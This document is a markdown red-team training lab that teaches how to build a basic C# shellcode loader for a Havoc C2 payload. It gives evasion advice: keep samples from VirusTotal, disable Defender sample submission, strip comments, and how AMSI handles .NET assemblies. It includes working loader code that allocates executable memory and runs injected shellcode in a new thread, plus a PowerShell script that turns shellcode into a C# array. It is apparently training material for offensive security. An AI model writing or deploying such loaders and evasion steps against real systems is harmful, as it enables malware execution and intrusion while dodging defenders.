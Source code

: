 # Lab - Shellcode

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**


> OPSEC HINT : Let's apply some basic best practices when we compile the following code
> 1. add and icon file to the dotnet app.
> 2. add metadata
> 4. Remove comments
> 3. compile with CSC

When compiling the dotnet code you can specify the .net version
```powershell

```

We'll need the .Net Developer Pack 4.8, let's see if it is installed:

```cmd
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
```

CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"


>HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.

Let's generate a Havoc shellcode payload (on `KALI` using the Havoc GUI):

Screenshots + xxd (hexview) payload.

Switch to your windows and under `"C:\THEV\Labs\LocalLoader"` you'll find a csharp solution file - open that with Visual Studio 2022.

We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).

```csharp
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main()
        {
            // (1) insert our shellcode
            byte[] shellCode = new byte[] { /* insert shellcode here */ };

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory
            Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

----
Here's a small shellcode formatter toos in powershell, it converts a binary file to csharp:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

---
Hooka

Donut